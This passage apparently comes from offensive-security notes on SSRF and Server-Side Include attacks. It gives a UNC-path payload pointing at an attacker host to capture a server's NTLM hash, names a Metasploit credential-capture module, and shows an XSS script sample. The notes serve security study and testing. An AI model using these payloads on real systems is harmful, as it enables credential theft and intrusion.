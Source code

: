 ### Attacking SSRF on Windows
You can try to access a UNC path in the following format:
```js
file:///\\attackerdomain\sharename
```

- https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc

If the server tries to authenticate to a fake share, you might be able to steal its NTLM password hash. The hash can be subject to further offline cracking.

SMB authentication attempts can be captured (e.g. using the metasploit module) 
```bash
auxiliary/server/capture/smb
```

### Other SSRF Scenarios
Sometimes, it will be possible to fetch a remote HTML file. 

So, SSRF will lead to Reflected XSS:
```bash
cat xss.html
# <script>alert(document.domain)</script>
```

> Upon visiting the URL, the remote HTML file is included by the server

### Time-based SSRF
Used especially in Blind exploitation scenarios

- Based on differences in response time, one may be able to perform an internal port scan or internal network/domain discovery

### Extending SSRF
What can we get:
```
- RCE (best scenario)
- File inclusion
- Reading sensitive data
- Interact with internal services
# Even executing only GET requests, 
# its enough to execute critical actions on internal services and execute arbritrary code.
```



## Server-Side Include
Its a language-neutral web server technology that supports creating dynamic content before rendering the page.

- when the web app makes use of **.shtml**, **.shtm** or **.stm** pages

The best options is to inject examplary SSI tags into the web app and observer the place where they are rendered.
